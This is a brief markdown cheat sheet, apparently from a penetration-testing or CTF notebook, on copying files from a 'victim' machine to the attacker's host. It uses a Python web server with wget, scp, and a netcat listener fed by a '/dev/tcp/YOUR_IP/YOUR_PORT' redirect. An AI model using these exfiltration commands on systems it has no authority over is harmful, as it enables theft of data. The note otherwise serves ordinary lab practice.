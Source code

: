 ```yaml
---
title: Share files in Linux 🍉
---
```

>[!Info]
>This note aims to help sharing files from victim machine to host machine.

### Way 1: Via python server:

```shell
# In victim's machine
python3 -m http.server PORT

# In your machine
wget http://MACHINE_IP:PORT/file
```

### Way 2: Via SCP

You must run this command *in your machine* and you'll need credentials or ssh keys:

```shell
#by private key
scp -i id_rsa USER@IP_HOST:/PATH/TO/THE/FILE /DESTINATION/PATH
#by port
scp -P PORT USER@IP_HOST:/PATH/TO/THE/FILE /DESTINATION/PATH
```

## Way 3: Via Netcat

```shell
# In your machine start a nc listener to receive the file
nc -lnvp YOUR_PORT > FILE_NAME
 
# Then in the victim's machine
cat /path/to/FILE_NAME > /dev/tcp/YOUR_IP/YOUR_PORT
```

